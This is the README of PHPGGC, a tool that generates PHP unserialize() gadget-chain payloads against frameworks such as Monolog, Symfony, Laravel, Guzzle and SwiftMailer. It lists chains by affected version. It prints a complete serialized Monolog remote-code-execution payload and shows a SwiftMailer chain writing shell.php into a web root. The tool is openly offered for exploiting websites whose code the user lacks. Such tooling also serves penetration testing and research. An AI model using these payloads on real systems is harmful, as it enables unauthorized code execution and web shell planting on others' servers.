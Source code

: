 # PHPGGC: PHP Generic Gadget Chains

*PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically*.
When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. It can be seen as the equivalent of [frohoff's ysoserial](https://github.com/frohoff/ysoserial), but for PHP.
Currently, the tool supports: Doctrine, Guzzle, Laravel, Magento, Monolog, Phalcon, Slim, SwiftMailer, Symfony, Yii and ZendFramework.

## Requirements

PHP >= 5.6 is required to run PHPGGC.

## Usage

Run `./phpggc -l` to obtain a list of gadget chains:

```
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR         I    
Doctrine/FW1          ?                 file_write       __toString     *    
Guzzle/FW1            6.0.0 <= 6.3.0    file_write       __destruct          
Guzzle/RCE1           6.0.0 <= 6.3.0    rce              __destruct          
Laravel/RCE1          5.4.27            rce              __destruct          
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct          
Monolog/RCE1          1.18 <= 1.23      rce              __destruct          
Monolog/RCE2          1.5 <= 1.17       rce              __destruct          
Phalcon/RCE1          <= 1.2.2          rce              __wakeup       *    
Slim/RCE1             3.8.1             rce              __toString          
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString          
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString          
SwiftMailer/FW3       5.0.1             file_write       __toString          
Symfony/FW1           2.5.2             file_write       DebugImport    *    
Symfony/RCE1          3.3               rce              __destruct     *    
Symfony/RCE2          2.3.42 < 2.6      rce              __destruct     *    
Symfony/RCE3          2.6 <= 2.8.32     rce              __destruct     *    
Yii/RCE1              1.1.19            rce              __destruct          
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct     * 

```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <code>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 'phpinfo();'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
Payloads often contain NULL bytes and cannot be copy/pasted as-is. Use `-s` for a soft URL encode, which keeps the payload readable.

The `-w` option allows you to define a PHP file containing a `wrapper($chain)` function.
This will be called after the chain is built, but before the `serialize()`, in order to adjust the payload's shape.
For instance, if the vulnerable code looks like this:

```
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a __toString() chain, wrapping it like so:

```
# /tmp/my_wrapper.php

function wrapper($chain)
{
    return array(
        'message' => $chain
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 'phpinfo();'
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## Contributing

Pull requests are more than welcome. Please follow these simple guidelines:

- Error-free payloads are prefered, as some websites exit abruptly even with E_NOTICE errors
- `__destruct()` is always the best vector
- Specify at least the version of the library you've built the payload on
- Refrain from using references unless it is necessary or drastically reduces the size of the payload. If the payload is modified by hand afterwards, this might cause problems.
- Do not include unused parameters in the gadget definition if they keep their default values. It just makes the payload bigger.

Codewise, the directory structure is fairly straightforward: gadgets in _gadgets.php_, description + logic in _chain.php_.
You can define pre- and post- processing methods, if parameters need to be modified.
Hopefully, the already implemented gadgets should be enough for you to build yours.
Otherwise, I'd be glad to answer your questions.
